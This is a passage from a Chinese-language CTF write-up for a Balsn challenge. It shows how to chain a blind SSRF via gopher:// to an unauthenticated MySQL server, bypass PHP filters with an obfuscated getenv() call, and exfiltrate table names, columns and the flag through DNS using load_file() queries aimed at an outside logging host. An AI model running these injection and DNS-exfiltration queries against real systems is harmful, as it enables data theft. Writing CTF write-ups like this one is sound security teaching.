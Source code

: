 由於我們已經知道使用者 `admin` 是空密碼，所以可以透過 `gopher://` 協議去做SSRF，對 MySQL Server 發送請求

<br>

但 gopher payload 太長了，還需要找一個方法能夠通過嚴格正規表達式和長度等限制

如果你試著把這些嚴格正規表達式限制和長度限制等規則，套在所以 PHP Function 上面的話

你會發現，能用的 Function 其實沒幾個，其中一個就是 `getenv()`

這個 function 會回傳你指定的 HTTP Header 的值

所以可以把 Gopher Payload 放在 HTTP Header 之中，來繞過這些限制

`(~%98%9A%8B%9A%91%89)(~%B7%AB%AB%AF%A0%AB)` (length: 18)

這等同 `getenv("HTTP_T")`.

<br>

### Step 4

現在，你已經有了一個 Blind SSRF!

對於構造 MySQL Protocol，可以使用一些現成工具，像 [Gopherus](https://github.com/tarunkant/Gopherus)

最後，你只需要把結果撈出就行，這裡可以使用 Time-based 或是 Out-of-band (DNS log) 等方法就能撈出結果

- `select load_file(concat("\\\\",table_name,".e222e6f24ba81a9b414f.d.zhack.ca/a")) from information_schema.tables where table_schema="ThisIsTheDbName";`
    - Output: `fl4ggg`
- `select load_file(concat("\\\\",column_name,".e222e6f24ba81a9b414f.d.zhack.ca/a")) from information_schema.columns where table_name="fl4ggg";`
    - Output: `the_flag_col`
- `select load_file(concat("\\\\",hex(the_flag_col),".e222e6f24ba81a9b414f.d.zhack.ca/a")) from ThisIsTheDbName.fl4ggg;`
    - Output: `42616C736E7B337A5F77316E643077735F7068705F6368346C7D`
    - hex to ascii: `Balsn{3z_w1nd0ws_php_ch4l}`

---

<br>

# 卍乂Oo韓國魚oO乂卍 (Koreanfish)


- Difficulty: ★
- Solved: 15 / 720
- Tag: PHP, DNS Rebinding, Flask, Race condition, SSTI, RCE

## Description

Taiwanese people love korean fish.

[Server Link](http://koreanfish.balsnctf.com/)

[Download](https://static.balsnctf.com/koreafish/d68fcc656a04423422ff162d9793606f2c5068904fced9087edc28efc411e7b7/koreafish-src.zip)
